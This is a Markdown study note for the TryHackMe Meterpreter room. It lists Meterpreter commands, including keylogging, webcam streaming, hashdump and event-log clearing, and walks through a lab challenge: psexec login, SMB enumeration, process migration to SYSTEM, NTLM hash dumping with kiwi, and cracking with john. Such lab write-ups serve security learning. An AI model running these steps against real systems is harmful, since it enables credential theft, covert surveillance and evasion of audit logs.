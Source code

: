 # Room
https://tryhackme.com/room/meterpreter

# Task 1 - Intro
* meterpreter is a metasploit payload that will run on the target system and act as an agent
* meterpreter runs in memory on the target but is not installed
* meterpreter avoids IPS and IDS by using TLS encrypted communication
* basic meterpreter commands
    * getpid - returns the meterpreter process id
    * ps - returns a list of running processes on the target

# Task 2 - meterpreter flavors
* meterpreter can either be a single or staged payload
* staged payloads are sent in two steps
    * stager
    * stages
* list meterpreter payloads in msfvenom
    * msfvenom --list payloads | grep meterpreter
* meterpreter payload type depends on
    * target OS
    * software libraries/components available on target OS
    * network connection types

# Task 3 - meterpreter commands
* once in a meterpreter shell  you can type help to list out the help screen
* useful meterpreter commands
    * core
        * background
        * exit
        * guid
        * help
        * info
        * irb
        * load
        * migrate
        * run
        * sessions
    * file system
        * cd
        * ls
        * pwd
        * edit
        * cat
        * rm
        * search
        * upload
        * download
    * networking
        * arp
        * ifconfig
        * netstat
        * portfwd
        * route
    * system
        * clearev
        * execute
        * getpid
        * getuid
        * kill
        * pkill
        * ps
        * reboot
        * shell
        * shutdown
        * sysinfo
    * other
        * idletime
        * keyscan_dump
        * keyscan_start
        * keyscan_stop
        * screenshare
        * screenshot
        * record_mic
        * webcam_chat
        * webcam_list
        * webcam_stream
        * getsystem
        * hashdump

# Task 4 - post exploitation with meterpreter
* useful post exploitation commands
    * getuid
    * ps
    * migrate
    * keyscan_start
    * keyscan_stop
    * keyscan_dump
    * hashdump
    * search
    * shell
    * getsystem
    * load

# Task 5 - post exploitation challenge
* load msfconsole and use the psexec module, initail creds are given to get in the box
    * msfconsole
    * use exploit/windows/smb/psexec
    * set rhosts [target_ip]
    * set smbuser [user]
    * set smbpass [password]
    * run
    * sysinfo
* once a meterpreter session has been established, background it and enumerate SMB
    * background
    * search smb
    * use 1
    * set session 1
    * run
* after you have grabbed the shares you'll have to migrate out of your powershell.exe process to another one, i chose svchost.exe
    * sessions -i 1
    * ps (make note of an svchost pid)
    * migrate [svchost pid]
    * getuid (verify nt authority\system)
* now that you are in a better process space you can load kiwi to grab the ntlm hashes
    * load kiwi
    * creds_all
* from here i took the ntlm hash for the target user and went to talk to john
    * john --format=NT -w=/usr/share/wordlists/rockyou.txt j.txt
* lastly was finding files, dropping to a shell and using dir was good enough
    * shell
    * cd \
    * dir something.txt /s /a